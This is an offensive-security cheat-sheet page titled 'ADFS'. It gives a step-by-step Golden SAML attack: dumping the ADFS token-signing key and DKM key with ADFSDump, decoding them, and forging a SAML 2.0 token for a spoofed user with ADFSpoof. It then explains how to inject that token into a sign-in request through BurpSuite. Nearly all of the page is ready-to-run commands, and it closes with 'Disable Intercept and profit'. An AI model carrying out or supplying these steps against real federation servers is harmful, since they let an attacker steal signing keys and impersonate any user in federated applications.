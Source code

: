 ```yaml
---
title: "ADFS"
date: 2024-9-14
tags: ["SAML", "Token-Based Authentication", "ADFS", "Active Driectory", "Windows", "Federation Services"]
---
```


### Abuse #1: Generate a SAML 2.0 token for some app

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Dump encrypted PFX and DKM key

```console
# With ADFS service account
.\ADFSDump.exe
```

<small>*Ref: [ADFSDump](https://github.com/mandiant/ADFSDump)*</small>

#### 2. Convert to binary blob

```console
# Copy private key(s)
echo '<PRIVATE_KEY>' | sed 's/-//g' | xxd -r -p > DkmKey.bin
```

```console
# Copy Encrypted Token Signing Key Begin ... Encrypted Token Signing Key End
cat b64_blob | base64 -d > EncryptedPfx.bin
```

#### 3. Check which private key is correct

```console
# The correct key will not show error
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin dump
```

<small>*Ref: [ADFSpoof](https://github.com/mandiant/ADFSpoof)*</small>

#### 4. Generate SAML 2.0 token

```console
# Copy info from ADFS dump
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s <SERVER> saml2 --endpoint <SIGN_IN_ENDPOINT> --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid <SPOOF_USER>@<DOMAIN> --rpidentifier <IDENTIFIER> --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue><SPOOF_USER>@<DOMAIN></AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue><SPOOF_USER></AttributeValue></Attribute>' 
```

#### 5. Modify request in BurpSuite

```console
+-------------------------------------------------------------+
| 1. Enable Intercept in Proxy Tab                            |
| 2. Sign In with the Web App                                 |
| 3. Click Forward until the POST request with 'SAMLResponse' |
| 4. Replace the payload and Forward                          |
| 5. Disable Intercept and profit                             |
+-------------------------------------------------------------+
```

{{< /tabcontent >}}
